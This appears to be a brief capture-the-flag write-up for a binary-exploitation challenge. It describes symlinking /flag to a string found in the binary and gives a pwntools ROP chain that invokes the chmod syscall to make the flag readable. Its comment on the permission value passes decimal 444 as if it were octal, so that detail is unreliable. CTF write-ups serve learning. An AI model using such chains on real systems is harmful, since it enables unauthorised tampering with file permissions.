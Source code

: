 In this challenge there is no address leak which means we cannot enter own string. So we will have to make do with whatever string is present in the binary. 

There are several strings present there so we can choose any one and create a symlink to /flag with the name as that of the string.

Next we can use chmod syscall to change the permission of /flag by calling chmod on symlink. 
Permission changes does not affect symlink but only what it is linked to and in this case that is the flag.

```python
str = next(elf.search(b"call"))

rop.raw(pop_rsi)
rop.raw(444)    # read permission for all three
rop.raw(pop_rdi)
rop.raw(str)       # address of string
rop.raw(pop_rax)
rop.raw(0x5A)       # syscall number for chmod
rop.raw(syscall)

```

This will change the permission of flag file so that it is now readable by everyone.